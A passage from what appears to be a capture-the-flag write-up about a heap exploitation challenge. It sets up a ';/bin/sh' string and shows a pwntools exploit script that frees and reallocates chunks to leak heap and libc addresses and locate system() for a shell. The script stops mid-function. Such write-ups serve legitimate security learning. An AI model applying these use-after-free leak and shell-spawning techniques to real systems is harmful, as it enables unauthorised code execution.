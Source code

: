 Also notice that starting at `0x9b7ba3c`, we've placed our `";/bin/sh\0"` string.
 
Putting everything together, we get a shell using the following exploit.

## Solution
{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys

def open_box(box, num_items):
    r.sendline("1")
    r.recvuntil(": ")
    r.sendline(str(box))
    r.recvuntil(": ")
    r.sendline(str(num_items))
    r.recvuntil(": ")

def add_item(box,item_val):
    r.sendline("2")
    r.recvuntil(": ")
    r.sendline(str(box))
    r.recvuntil(": ")
    r.sendline(str(item_val))
    r.recvuntil(": ")

def get_item(box, item_val, parse = True):
    r.sendline("3")
    r.recvuntil(": ")
    r.sendline(str(box))
    r.recvuntil(": ")
    r.sendline(str(item_val))
    if parse:
        return r.recvuntil(": ").split(" = ")[1].split("\n")[0]
    else:
        r.recvuntil(": ")

def del_box(box):
    r.sendline("4")
    r.recvuntil(": ")
    r.sendline(str(box))
    r.recvuntil(":")

def exploit(r):
    r.recvuntil(": ")

    ## allocate box0, box1
    open_box(0,32) # data_set chunk != fastbin size ( > 64 bytes)
    open_box(1,32) # data_set chunk != fastbin size ( > 64 bytes)

    ## free box0, box1
    del_box(0)
    del_box(1)

    ## allocate box2
    open_box(2, 8) #(0xa0-8)/4 = 38

    ## get items from box2
    heap_leak = int(get_item(2,3))
    libc_leak = int(get_item(2,1))
    libc_base = libc_leak-0x1aa4e8
    system = libc_base+0x40190